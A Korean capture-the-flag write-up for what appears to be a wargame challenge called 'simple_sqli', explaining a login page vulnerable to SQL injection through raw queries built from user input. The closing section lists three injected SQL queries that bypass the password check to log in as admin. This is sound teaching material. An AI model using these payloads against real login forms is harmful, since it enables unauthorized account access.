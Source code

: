 ## 📍simple_sqli

```
로그인 서비스입니다.  
SQL INJECTION 취약점을 통해 플래그를 획득하세요. 플래그는 flag.txt, FLAG 변수에 있습니다.
```

관리자 계정으로 로그인하면 화면에 FLAG가 출력된다.

#### 소스코드

**login** 페이지는 입력받은 `userid`, `userpassword`를 DB에서 조회하고 이에 해당하는 데이터가 있는 경우 로그인을 수행한다.
![](Attachments/B607DA3B-7FF6-44E6-85A9-E69B1C77D59B.png)

admin 계정의 비밀번호는 랜덤 16바이트의 문자열이기 때문에 값을 예상할 수 없다.


#### 취약점

login 페이지에서 `userid`와 `userpassword`를 이용자에게 입력받고, 동적으로 쿼리문을 생성한 뒤 `query_db` 함수에서 DB에 질의한다.
이렇듯 동적으로 생성한 쿼리를 **RawQuery**라고 한다.
RawQuery를 생성할 때 이용자의 입력값이 쿼리문에 그대로 포함되면 SQL Injection 취약점에 노출될 수 있다.
(이용자의 입력값을 검사하는 과정이 없음)
임의의 쿼리문을 `userid` 또는 `userpassword`에 삽입해 SQL Injection 공격을 시도한다.


#### 해결

로그인을 위해 실행하는 쿼리문: `SELECT * FROM users WHERE userid="{userid}" AND userpassword="{userpassword}";`

`userpassword`를 검사하는 과정을 생략할 수 있게 다음과 같이 입력한다.

![](Attachments/1E865DA1-F5C1-4F4A-B84C-083A3E3BF6F3.png)

![](Attachments/CD50907D-64F4-4751-8675-417225786EE2.png)


#### 다른 해결법

```sql
/* userid 검색조건 뒤에 OR 조건을 추가해 뒷 내용이 뭐든 admin 반환 */
SELECT * FROM users WHERE userid="admin" or "1" AND userpassword=""
/* userid 검색조건에 admin, userpassword에 임의 값을 입력하고 OR 조건을 추가 */
SELECT * FROM users WHERE userid="admin" AND userpassword="" OR userid="admin"
/* userid 검색조건 뒤에 OR 1을 추가해 테이블의 모든 내용을 반환하도록 하고, LIMIT 절을 이용해 두 번째 Row인 admin을 반환하도록 함 */
SELECT * FROM users WHERE userid="" or 1 LIMIT 1,1-- " AND userpassword=""
```